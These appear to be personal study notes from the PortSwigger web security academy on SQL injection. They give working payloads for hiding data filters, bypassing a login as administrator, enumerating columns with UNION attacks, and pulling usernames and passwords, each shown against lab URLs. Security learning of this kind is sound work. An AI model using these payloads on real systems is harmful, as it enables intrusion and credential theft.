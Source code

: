 # Web Hacking

These are notes that I compiled while learning from the Portswigger academy. The code is from them, although I will modify them according to my needs.

## SQL Injection

### **Retrieving hidden data**

Regular:&#x20;

`https://insecure-website.com/products?category=Gifts`

Modified:

`https://insecure-website.com/products?category=Gifts'--`

**OR**

`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

### **Subverting application logic**

Regular:

`SELECT * FROM users WHERE username = 'John' AND password = 'Doe'`

Modified:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

### **SQL injection UNION attacks**

For a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each column must be compatible between the individual queries.

To determine the number of columns required (to be submitted within the `WHERE` clause of the original query):

`' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- .....`

**OR**

`' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL--`

If you get an error for either one and then you'll know how many columns there are.

Regular:

`https://acad1f5f1ebf0bbfc0bd07d0009f009f.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories`

Modified:

`https://acad1f5f1ebf0bbfc0bd07d0009f009f.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--`

### **Finding columns with a useful data type in an SQL injection UNION attack**

**Replace 'a' with string you are looking for:**

`' UNION SELECT 'a',NULL,NULL,NULL-- ' UNION SELECT NULL,'a',NULL,NULL-- ' UNION SELECT NULL,NULL,'a',NULL-- ' UNION SELECT NULL,NULL,NULL,'a'--`

Regular:

`https://ac1f1f361f395e87c021394c00230079.web-security-academy.net/filter?category=Accessories`

Modified:

`https://ac1f1f361f395e87c021394c00230079.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,%27FgYUb0%27,NULL--`

### Using an SQL injection UNION attack to retrieve interesting data <a href="using-an-sql-injection-union-attack-to-retrieve-interesting-data" id="using-an-sql-injection-union-attack-to-retrieve-interesting-data"></a>

The crucial information needed to perform this attack is that there is a table called `users` with two columns called `username` and `password`

`' UNION SELECT username, password FROM users--`

Regular:

`https://ac401f231f831ad7c0283c9800910099.web-security-academy.net/filter?category=Accessories`

Modified:

`ac401f231f831ad7c0283c9800910099.web-security-academy.net/filter?category=Accessories' UNION SELECT username, password FROM users--`

### Retrieving multiple values within a single column <a href="retrieving-multiple-values-within-a-single-column" id="retrieving-multiple-values-within-a-single-column"></a>

